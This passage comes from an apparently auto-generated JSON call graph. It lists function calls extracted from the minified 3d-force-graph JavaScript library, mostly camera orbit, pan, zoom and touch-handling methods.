"calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromNormalAndCoplanarPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectPlane"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateProjectionMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceToSquared"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceToSquared"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_getAutoRotationAngle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_getZoomScale"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_rotateLeft"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_rotateUp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_panLeft"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixColumn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_panUp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixColumn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixColumn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "crossVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_pan"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tan"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_panLeft"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_panUp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_panLeft"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_panUp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_dollyOut"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_dollyIn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_updateZoomParameters"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "unproject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_clampDistance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleMouseDownRotate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleMouseDownDolly"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_updateZoomParameters"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleMouseDownPan"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleMouseMoveRotate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_rotateLeft"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_rotateUp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleMouseMoveDolly"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_dollyOut"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_dollyIn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleMouseMovePan"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_pan"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleMouseWheel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_updateZoomParameters"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_dollyIn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_dollyOut"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleKeyDown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_rotateUp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_pan"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_rotateUp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_pan"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_rotateLeft"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_pan"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_rotateLeft"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_pan"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleTouchStartRotate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_getSecondPointerPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleTouchStartPan"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_getSecondPointerPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleTouchStartDolly"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_getSecondPointerPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleTouchStartDollyPan"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleTouchStartDolly"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleTouchStartPan"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleTouchStartDollyRotate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleTouchStartDolly"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleTouchStartRotate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleTouchMoveRotate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_getSecondPointerPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_rotateLeft"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_rotateUp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleTouchMovePan"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_getSecondPointerPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_pan"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleTouchMoveDolly"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_getSecondPointerPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_dollyOut"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_updateZoomParameters"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleTouchMoveDollyPan"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleTouchMoveDolly"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleTouchMovePan"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleTouchMoveDollyRotate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleTouchMoveDolly"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleTouchMoveRotate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_addPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_removePointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_isTrackingPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_trackPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_getSecondPointerPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_customWheelEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setPointerCapture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_isTrackingPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_addPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onTouchStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onMouseDown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onTouchMove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onMouseMove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "releasePointerCapture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onTouchStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleMouseDownDolly"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleMouseDownPan"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleMouseDownRotate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleMouseDownRotate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleMouseDownPan"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleMouseMoveRotate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleMouseMoveDolly"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleMouseMovePan"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleMouseWheel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleKeyDown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleTouchStartRotate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleTouchStartPan"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleTouchStartDollyPan"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleTouchStartDollyRotate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleTouchMoveRotate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleTouchMovePan"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleTouchMoveDollyPan"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleTouchMoveDollyRotate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getRootNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getRootNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "connect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "connect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "translateX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "translateY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "translateZ"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceToSquared"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_updateMovementVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_updateRotationVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_getContainerDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_updateMovementVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": 